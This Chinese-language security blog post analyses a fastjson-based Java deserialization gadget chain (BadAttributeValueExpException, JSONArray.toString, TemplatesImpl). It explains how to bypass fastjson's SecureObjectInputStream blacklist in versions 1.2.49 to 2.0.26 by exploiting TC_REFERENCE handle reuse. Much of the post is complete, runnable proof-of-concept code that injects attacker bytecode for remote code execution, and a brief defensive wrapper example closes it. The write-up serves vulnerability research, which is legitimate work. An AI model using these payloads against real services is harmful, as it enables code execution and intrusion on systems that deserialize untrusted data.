分为2个版本来探究
这里我们找的是原生链，及fastjson依赖下看看可反序列化的类，看有哪些可以用，这里查找只有这三个,1.2.49之后没这个AntiCollisionHashMap了

环境
<dependency>
<groupId>org.javassist</groupId>
<artifactId>javassist</artifactId>
<version>3.19.0-GA</version>
</dependency>
<dependency>
<groupId>com.alibaba</groupId>
<artifactId>fastjson</artifactId>
<version>1.2.48</version>
</dependency>
1.2.48<=
0x01 分析
已知条件有JSON.toString->JSON.toJSONString触发getter方法
这里我们就是要分析怎么触发的getter方法
跟进这里write()

在下面这个write()中，会触发我们的getter，但是itemSerializer是一个根据我们传入的类，动态生成的一个ObjectSerializer对象

则我们跟进serializer.getObjectWriter看看怎么创造的
在ASMSerializerFactory#createJavaBeanSerializer中会对这个Class进行创造，并实例化生成对象返回

这里我们直接获取最终的byte[]还原这个class
import java.io.FileOutputStream;
import java.io.IOException;
import java.util.Base64;
public class SaveClassFile {
public static void saveClassFile(String className, byte[] code) {
// 定义文件路径和名称
String fileName = className + ".class";
try (FileOutputStream fos = new FileOutputStream(fileName)) {
// 将字节数组写入文件
fos.write(code);
System.out.println("Class file saved: " + fileName);
} catch (IOException e) {
e.printStackTrace();
}
}
public static void main(String[] args) {
// 示例：假设你已经有一个 byte[] code
String base64="yv66vgAAADEA5gEAPWNvb...";
byte[] code = Base64.getDecoder().decode(base64);
String className = "ser";
saveClassFile(className, code);
}
}
还原出来张下面这个样子，其write方法中，经过不完整调试会进入else调用下面的getOutputProperties()

然后关于FieldInfo的值的获取，这个关系到会调用哪些getter，这里简单提一嘴吧
computeGetters()方法里，会对该类的所有方法进行处理，并提取get和is开头的方法

if(methodName.startsWith("get")){
if(methodName.startsWith("is")){
然后这些提取的FieldInfo则存储在fields中了
然后整条链子就没什么难度了，通过BadAttributeValueExpException触发toString就行
0x02 poc
getter调用是通过触发JSON#toString实现的，JSON这里是抽象类，然后他有两个继承类JSONArray，JSONArray
Map<String, Object> map = new HashMap<>();
map.put("sd", templates);
JSONObject objects = new JSONObject(map);
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.NotFoundException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Base64;
public class Learn {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass clazz = pool.get(Evil.class.getName());
byte[] code = clazz.toBytecode();
System.out.println(Base64.getEncoder().encodeToString(code));
TemplatesImpl templates=new TemplatesImpl();
setFiled(templates,"_name","111");
setFiled(templates,"_bytecodes",new byte[][]{code});
JSONArray objects = new JSONArray();
objects.add(templates);
Class<?> aClass = Class.forName("javax.management.BadAttributeValueExpException");
Constructor<?> o = aClass.getDeclaredConstructor(Object.class);
o.setAccessible(true);
Object o1 = o.newInstance(11);
Field val = aClass.getDeclaredField("val");
val.setAccessible(true);
val.set(o1, objects);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(o1);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
private static void setFiled(TemplatesImpl templates, String name, Object number) throws NoSuchFieldException, IllegalAccessException {
Field declaredField = TemplatesImpl.class.getDeclaredField(name);
declaredField.setAccessible(true);
declaredField.set(templates,number);
}
}
1.2.49–>2.0.26
1.2.49之后，JSONObject新增了SecureObjectInputStream来处理JSONObject和JSONArray的readObject()反序列化，其中增加了resolveClass和resolveProxyClass会对相关的普通类以及代理类的接口类进行检测

这里黑名单检测出com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl

这里利用思路，是因为SecureObjectInputStream只会处理JSON2相关的反序列化(这里JSON2代表JSONObject和JSONArray，后面都这样表示懒得写了)，这让我们有了操作的空间
什么意思呢，这里写了一个小demo供大家理解，这里TemplatesImpl和JdbcRowSetImpl都是黑名单的，而这里只有add到JSONArray的JdbcRowSetImpl会被SecureObjectInputStream处理，而TemplatesImpl则是正常的ObjectInputStream的处理，则不会被检测。
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.rowset.JdbcRowSetImpl;
import javax.xml.transform.Templates;
import javax.xml.transform.Transformer;
import javax.xml.transform.TransformerConfigurationException;
import java.io.*;
import java.net.URL;
import java.util.ArrayList;
import java.util.Properties;
public class test_ser {
public static void main(String[] args) throws Exception {
TemplatesImpl templates=new TemplatesImpl();
JdbcRowSetImpl url= new JdbcRowSetImpl();
JSONArray objects = new JSONArray();
objects.add(url);
ArrayList<Object> arrayList = new ArrayList<>();
arrayList.add(templates);
arrayList.add(objects);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(arrayList);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
}

其实当时看感觉开发处理的很好，因为这种不会影响到正常的反序列化，局部的进行了检测。
然后还有一点，我们要利用TemplatesImpl肯定是要放到ArrayList中的，那上面有什么用呢，待我慢慢道来
这是因为，
java反序列化中为了提高效率，反序列化过一次的对象会放到一个类似Map的参数中，下一次反序列化到这个对象时，则会直接从这个Map中获取对应的对象，而不会再走第一次处理反序列化的流程，而resolveClass的处理是在第一次反序列化中进行检测的，并不会在第二次中进行检测所以我们先通过
ObjectInputStream帮我们实现第一次反序列化，第一次反序列化检测的是ObjectInputStream#resolveClass并不会对我们的类照成影响，而SecureObjectInputStream处理的是第二次反序列化则实现了绕过SecureObjectInputStream#resolveClass
这问题其实也跟java反序列化的调用处理有很大关系hhh，如果没这个机制的话，其实开发这样写没什么问题，我们看看java反序列化中是怎么处理的
java反序列化
readObject0这里会有一个switch处理，然后进行对应的反序列化处理

先看看正常流程吧，正常类是进入
case TC_OBJECT:-->readOrdinaryObject()-->readClassDesc(false)-->case TC_CLASSDESC:
-->readNonProxyDesc()-->resolveClass() //触发检测

然后我们是要避免检测的，如果从readClassDesc()出发的话，其实只剩TC_REFERENCE可以看看了
TC_NULL是返回null的
TC_PROXYCLASSDESC是处理代理类的，而代理类，SecureObjectInputStream也是做了检测的
而
TC_REFERENCE正是处理已经反序列化过的类，这里的TC_REFERENCE其实和readObject0中TC_REFERENCE处理是一样的。往上推也就是说我们要避免readClassDesc()方法，那么其实readObject0就只剩TC_REFERENCE的调用了，查看对应readHandle()方法

这里handles.lookupObject获取handles.entries中对应的对象,并return。那我们再看看这些值是怎么添加进去的
handles.entries的值一般通过下图中，handles.assign添加

上图就是正常处理完反序列化后，将反序列化后的对象存储到handles中，方便第二次处理同一个类时直接调用
int assign(Object obj) {
if (size >= entries.length) {
grow();
}
status[size] = STATUS_UNKNOWN;
entries[size] = obj;
return size++;
}
然后就是poc环节啦
poc
ArrayList<Object> arrayList = new ArrayList<>();
arrayList.add(templates);
arrayList.add(o1);
这里主要就是先让ObjectInputStream将TemplatesImpl反序列化一次，再交给SecureObjectInputStream处理，然后case那些byte，java序列化会帮我们完成。当然这里不止list，只要是可以存储多个对象的都可以，然后让TemplatesImpl先反序列化即可
import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.ArrayList;
import java.util.Base64;
public class Learn2 {
public static void main(String[] args) throws Exception {
ClassPool pool = ClassPool.getDefault();
CtClass clazz = pool.get(Evil.class.getName());
byte[] code = clazz.toBytecode();
System.out.println(Base64.getEncoder().encodeToString(code));
TemplatesImpl templates=new TemplatesImpl();
setFiled(templates,"_name","111");
setFiled(templates,"_bytecodes",new byte[][]{code});
JSONArray objects = new JSONArray();
objects.add(templates);
Class<?> aClass = Class.forName("javax.management.BadAttributeValueExpException");
Constructor<?> o = aClass.getDeclaredConstructor(Object.class);
o.setAccessible(true);
Object o1 = o.newInstance(11);
Field val = aClass.getDeclaredField("val");
val.setAccessible(true);
val.set(o1, objects);
ArrayList<Object> arrayList = new ArrayList<>();
arrayList.add(templates);
arrayList.add(o1);
FileOutputStream fos = new FileOutputStream("bin");
ObjectOutputStream oos = new ObjectOutputStream(fos);
oos.writeObject(arrayList);
oos.close();
// 从文件中反序列化对象
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new ObjectInputStream(fis);
ois.readObject();
ois.close();
}
private static void setFiled(TemplatesImpl templates, String name, Object number) throws NoSuchFieldException, IllegalAccessException {
Field declaredField = TemplatesImpl.class.getDeclaredField(name);
declaredField.setAccessible(true);
declaredField.set(templates,number);
}
}
安全检测
那怎么样是安全的呢，其实上面的原因就是，不是所有第一次反序列化的累都进行了resolveClass检测
那怎么才安全，下方及通过SafeObjectInputStream包装，再readObject就全部都进行resolveClass检测了
而在fastjson中及通过SecureObjectInputStream包装，但是貌似开发不是这样想，因为我反射去调用这个来包装反序列化时会空指针报错，那开发思路应该是应用更方便来的，不如的话每个反序列化都需要SecureObjectInputStream包装，修改以前代码工程量应该不小hhh
public class SafeObjectInputStream extends ObjectInputStream {
public SafeObjectInputStream(InputStream in) throws IOException {
super(in);
}
@Override
protected Class<?> resolveClass(ObjectStreamClass desc)
throws IOException, ClassNotFoundException {
String className = desc.getName();
if (className.equals("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl")) {
throw new SecurityException("Deserialization of TemplatesImpl is not allowed!");
}
return super.resolveClass(desc);
}
}
FileInputStream fis = new FileInputStream("bin");
ObjectInputStream ois = new SafeObjectInputStream(fis);
ois.readObject();
ois.close();
参考
https://www.cnpanda.net/sec/893.html